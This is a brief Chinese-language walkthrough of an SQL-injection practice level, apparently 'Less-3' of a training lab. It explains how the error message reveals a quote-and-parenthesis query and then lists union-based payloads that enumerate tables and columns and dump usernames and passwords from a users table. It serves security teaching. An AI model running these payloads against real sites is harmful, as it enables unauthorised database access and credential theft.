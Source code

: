


### Less-3

+ 首先注入以下内容判断<code>sql</code>语句类型

~~~ shell
?id=1'
~~~

![Less-3_1](./img/Less-3_1.PNG)

从上面的页面报错信息可推断<code>sql</code>语句是单引号字符型且有括号，所以需要闭合单引号且也需要考虑括号



+ 根据下面的代码构建进行<code>sql</code>注入，后面所有的代码以此为基础进行构造

~~~ shell
?id=1')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~



